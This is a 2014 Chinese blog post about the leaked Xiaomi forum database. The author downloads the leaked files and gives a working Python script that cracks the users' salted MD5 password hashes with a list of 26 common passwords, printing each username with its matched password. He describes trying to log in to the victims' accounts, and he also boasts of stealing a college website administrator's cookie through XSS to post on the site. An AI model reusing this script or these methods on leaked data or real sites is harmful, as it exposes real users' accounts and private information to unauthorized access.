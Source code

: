 title: 小米被脱裤那点事儿
date: 2014-05-20 0:16:16
tags: [小米,数据库,Web安全,创业]
---

几天前，网络开始疯传小米被脱裤，我是第二天才知道消息的，在[乌云](http://wooyun.org)评论里看到[西域论坛](http://bbs.xiyv.net/)，去看了下竟然有数据库的百度网盘链接，下载后发现是三个文件，分别是xiaomi_com.MYI,xiaomi_com.MYD,xiaomi_com.frm,查了下资料:
>frm、MYI、MYD 分别是 MyISAM 表的表结构\索引\数据文件

花了点时间导入本地数据库。小米论坛之前采用的是Discuz系统，密码都是加盐哈希存储的，很难破解，[CMD5](http://www.cmd5.com/)这个网站挺牛逼的，能反向破解很多密码，但是收费，以为这份数据库没啥价值，也就没怎么管。晚上突然想到即使加盐，也可以去尝试用弱口令比对的方法，即用最常用的123456等弱密码加盐哈希后去和数据库里的值进行比较。第一次用Python写了脚本，的确很方便，之前用Java连接数据库都要弄个驱动。出乎意料的是123456这种密码竟然有30300个用户，能登录成功的都没有开启小米云服务，有些则是登录失败，估计这部分才是云服务用户，被小米锁定账号了，要是提前一天分析出这些密码，估计很多用户隐私就可以看到了。

#代码

Python写了个脚本，进行密码分析，弱口令来源是社会工程学联盟统计的2013年常用弱口令TOP26，互联网上泄露的密码已经数以亿计，我知道不少人手里整理了这些数据，随手查个邮箱用户名的密码轻而易举，很大的几率碰撞能登录其他网站，这他妈才是大数据。下面亮出脚本代码吧，第一次写，纯属现学现用。

```
#!/usr/bin/env python
#coding=utf-8
import sys
import MySQLdb
import MySQLdb.cursors
import re
import md5
import os

pwdList=['123456','123456789','111111','123123','12345678','a123456','000000','5201314','11111111','wodima123','a123456789','zxcvbnm','123456a','123321','qq123456','woaini1314','123456789a','passport','1234567890','1314520','abc123456','123123123','1234567','7758521','666666','woaini']
conn=MySQLdb.connect(host='localhost',user='root',passwd='900608',cursorclass=MySQLdb.cursors.SSCursor)
cursor=conn.cursor()

conn.select_db('xiaomi')
cursor.execute('select * from xiaomi_com')

row=cursor.fetchone()
dict={}

while row is not None:
	password=row[2]
	list=re.split(':',password)
 	md5pwd=list[0]
	salt=''
	if len(list)>1:
		salt=list[1]
	for ipwd in  pwdList:
		m=md5.new(ipwd)
		m.digest()
		m1=md5.new(m.hexdigest()+salt)
		m1.digest()
		pwd=m1.hexdigest()
		if pwd==md5pwd:
			dict[ipwd]=dict.get(ipwd,0)+1
			print row[3],ipwd
			break
	row=cursor.fetchone()
cursor.close()
conn.close()
for i in dict:
	print "dict[%s]="% i,dict[i]
```
下面是代码运行部分结果，统计了26个密码的使用人数，应该有8万左右吧，还是挺多的。

![数据分析结果](http://jiajixin.qiniudn.com/xiaomi_database_ana.png)

#安全

我是从去年开始关注网络安全的，在微博和网络上看了点相关知识。后来一个女同学过生日，想给她一份别致的礼物----在学院官网上祝她生日快乐，看了看网站，感觉有个地方应该可以XSS注入代码，开个服务器等了三天三夜，终于等到管理员上线拿到了她的cookie，发了篇生日快乐的文章，怕出事，很快又改回来了。后来那个女同学送了我块肥皂，更搞笑的是肥皂被我舍友要去，然后不知道送给谁了。

年初的时候，余弦@知道创宇在微信招聘，我顺手发了个简历，很快就收到他的回复，也有空和业内大名鼎鼎的黑哥在QQ上聊了一会，那边基本上是给了开发的offer，由于各种原因没去，但却开始更加关注Web安全。知道创宇的这一票人，在Web安全领域做的还是挺不错的，今年信息安全发生了很多大事，OpenSSL心血漏洞事件、路由器安全、摄像头安全，这些事件背后都能看到他们的身影，这是一群牛逼的人，希望他们越做越好吧。

有人说今年是信息安全元年，行业变化很大，发生了很多事情。这不到一年的时间，我是越来越意识到Web安全的重要性，BAT这样的大公司对安全还是挺重视的，但太多的创业公司意识薄弱，小公司基本不了解Web安全，连小米这样的中型创业公司也被爆料对白帽不友好。大多数都是吃一堑长一智，跌了跟头才开始意识到安全的重要性。不光公司，很多程序员基本上都不了解Web安全，很多学校没有相关课程，有的也是乏味的密码学基础知识介绍，更不要说那些教授纸上谈兵，根本不懂入侵了。希望未来高校能有Web安全这门课，有个牛逼的黑客导师，我觉得很多学生还是有兴趣的，这个可能高校和企业合作比较好。

不想当黑客的程序员不是好程序员，很多人进入计算机行业的时候都有成为黑客这样的想法吧，只是后来渐行渐远。锤子便签的图标上有一句话，
>不要因为走得太远就忘了当初为什么出发

是啊，下周二锤子手机发布会优酷直播，真心期待老罗带来精彩。

